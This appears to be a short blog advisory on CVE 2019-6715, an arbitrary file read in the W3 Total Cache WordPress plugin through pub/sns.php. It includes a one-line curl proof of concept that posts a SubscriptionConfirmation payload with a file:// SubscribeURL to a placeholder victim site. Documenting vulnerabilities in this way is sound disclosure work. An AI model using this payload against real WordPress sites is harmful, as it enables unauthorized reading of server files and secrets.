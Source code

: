 ```yaml
---
layout: post
title: "CVE 2019-6715"
date: 2019-03-14 15:53:06 +0700
comments: false
---
```


* CVE Mitre [CVE 2019-6715](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-6715).

# CVE 2019-6715

Description:
pub/sns.php in the W3 Total Cache plugin before 0.9.4 for WordPress
allows remote attackers to read arbitrary files via the SubscribeURL field in SubscriptionConfirmation JSON data.

Vulnerability Type:
arbitrary file read

Vendor of Product:
Wordpress W3 Total Cache plugin by Frederick Townes

Affected Product Code Base:
W3 Total Cache - 0.9.2.6 - 0.9.3, fixed in 0.9.4

Affected Component:
Affected source code file: w3-total-cache/pub/sns.php


# Exploit - PoC:

`curl -X PUT --data '{"Type":"SubscriptionConfirmation","Message":"","SubscribeURL":"file://file_path"}' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.80 Safari/537.36' http://victim.com/wp-content/plugins/w3-total-cache/pub/sns.php`

============

![](/images/cve-2019-6715.png)

![](/images/exploit-cve-2019-6715.png)

